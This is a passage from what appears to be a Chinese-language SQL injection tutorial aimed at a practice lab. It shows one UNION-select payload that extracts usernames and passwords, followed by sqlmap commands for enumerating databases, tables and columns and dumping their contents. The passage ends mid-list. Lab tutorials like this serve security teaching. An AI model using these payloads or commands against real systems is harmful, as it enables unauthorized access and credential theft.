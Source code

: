 `http://10.60.250.214/Less-1/?id=-1' union select 1,2,group_concat(username,':',password) from users%23`

![18](https://i.imgur.com/72LA4RH.png)

## SQLMAP ##

### 基础命令 ###

SQLMAP的基础命令如下：

>列举数据库

sqlmap -u “注入地址” -v 1 –-dbs

>当前数据库

sqlmap -u “注入地址” -v 1 –-current-db

>列数据库用户

sqlmap -u “注入地址” -v 1 –-users


>当前用户

sqlmap -u “注入地址” -v 1 –-current-user

>列举数据库的表名

sqlmap -u “注入地址” -v 1 -D “数据库” –-tables

>获取表的列名
sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” –-columns

>获取表中的数据
sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” -C “字段” –-dump

### 获取数据库 ###
**-u** 
<font color=#8470FF>
**指定url** 
</font>


**--dbs** 
<font color=#8470FF>
**爆破数据库** 
</font>

**--batch**
<font color=#8470FF>
**默认运行** 
</font>

**--technique**  
<font color=#8470FF>
